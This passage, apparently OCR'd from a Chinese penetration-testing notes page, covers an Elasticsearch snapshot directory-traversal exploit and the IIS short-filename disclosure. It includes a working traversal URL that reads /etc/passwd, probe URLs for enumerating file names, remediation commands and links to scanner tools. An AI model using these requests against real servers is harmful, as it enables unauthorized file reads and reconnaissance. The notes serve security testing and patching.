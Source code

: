     {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
        }
    }
    ```

    目录穿越读取任意文件

    `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

    在错误信息中包含文件内容 (编码后) ,对其进行解码即可获得文件

---

## IIS
**IIS shortname**

windows 在创建一个新文件时,操作系统还会生成 8.3 格式的兼容 MS-DOS 的(短)文件名,以允许基于 MS-DOS 或16位 windows 的程序访问这些文件。

- 文章
    - [IIS短文件名漏洞](http://www.lonelyor.org/lonelyorWiki/15446866501207.html)
    - [IIS短文件名泄露漏洞修复](https://segmentfault.com/a/1190000006225568)
    - [IIS短文件/文件夹漏洞(汇总整理) ](https://www.freebuf.com/articles/4908.html)

- 修复方案
    1. 升级 .net framework 至 4.0 版本或以上
    2. 修改 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem
    值 NtfsDisable8dot3NameCreation 为 1

- 示例
    ```bash
    1. http://www.xxx.com/*~1*/.aspx
    2. http://www.xxx.com/l1j1e*~1*/.aspx
    # 若1返回404而2返回400,则可以判断目标站点存在漏洞。
    http://www.xxx.com/a*~1*/.aspx
    # 若存在将返回404,不存在则返回400。以此类推,不断向下猜解所有的6个字符。
    ```
    ```
    Windows Server 2008 R2
    查询是否开启短文件名功能：fsutil 8dot3name query
    关闭该功能：fsutil 8dot3name set 1

    Windows Server 2003
    关闭该功能：fsutil behavior set disable8dot3 1
    ```

- POC | Payload | exp
    - [lijiejie/IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)
    - [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
